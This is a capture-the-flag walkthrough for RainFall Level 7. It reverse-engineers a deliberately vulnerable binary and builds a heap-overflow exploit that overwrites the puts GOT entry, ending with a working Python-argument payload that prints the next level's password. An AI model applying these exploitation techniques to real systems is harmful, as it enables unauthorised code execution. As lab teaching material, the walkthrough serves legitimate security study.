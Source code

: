 # Level 7

Once logged in, you will see a binary `level7`.

```
$ ssh localhost -p 4444 -l level7
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level7@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$ ls
level7
```

Let's run this and see what it does.

```
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

It has a segmentation fault, and we want to avoid that, so let's take a look at the binary.

```
level7@RainFall:~$ gdb ./level7
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    edx,eax
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]		; set eax to [esp+0x1c]
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx		; set eax+0x4 to edx
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>		; malloc (esp = 8)
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax		; return value of malloc allocated to [esp+0x18]
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]		; eax = [esp+0x18]
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2			; eax = 2;
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>		; malloc(esp = 8);
   0x0804857f <+94>:	mov    edx,eax						; return value of eax to edx;
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:	add    eax,0x4
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]			; eax = 4
   0x08048590 <+111>:	mov    edx,eax
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]		; eax = a[1]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    eax,0x0
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
gdb-peda$
```

The `main` function takes arguments (`argv`) and allocates them into two local variables. Afterwards, it calls the function `fgets` to read the `level8/.pass` file, storing the value into the global variable `c` at address `0x08049960`. Finally, the string `~~` will be printed out.

The goal is to get the flag, and the program doesn't seem to print out flags without an exploit.

```
level7@RainFall:~$ ./level7 aaaa bbbb
~~
level7@RainFall:~$
```

Let's see if there is any other function declared.

```
gdb-peda$ info functions
All defined functions:
[...]
0x080484f4  m
0x08048521  main
[...]
```

The funciton `m` is here, so let's see the assembly.

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```

By decompiling the assembly, we can see that the function prints out the value of `c` with the result of a `time` call.

During the first call to `strcpy`, we can overwrite the address used as destination for the second `strcpy` (`second[1]`). By doing this, we can overwrite the `puts` function GOT address to call function `m` instead.

In order to do, it is necessary to find out the offset.

By using a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can find the offset. Here, we find the offset is 20. (This offset is small because `malloc` places items in memory near each other.)

```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

After having figured out how to overwrite the `second[1]` pointer, we need to overwrite the `puts` GOT (Global Offset Table) address with a pointer to `m`. (See level 5 walkthrough for an explanation of GOT.)

In short, instead of calling `puts`, we want to call `m`. The address for `puts` is cached on the GOT and we fill that cache before the real address gets filled in.

The address for `puts` can be easily found with gdb and can be checked by using `ltrace`.

```
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
gdb-peda$ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928    // same as 0x08049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

Here's our program with half of the exploit complete, writing `"AAAA"` into the pointer for `puts`.

```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') AAAA
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b") = 0x0804a018
strcpy(0x08049928, "AAAA")                = 0x08049928
fopen("/home/user/level8/.pass", "r")     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As found above, the address for function `m()` is `0x080484f4`, so the payload needs to be set up as below:

```
    padding (20 bytes) + GOT address (4 bytes)   +   m() function address (4 bytes)
                     1st arg                                   2nd arg
```

And voilà our completed exploit:

```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1654670080
level7@RainFall:~$
```
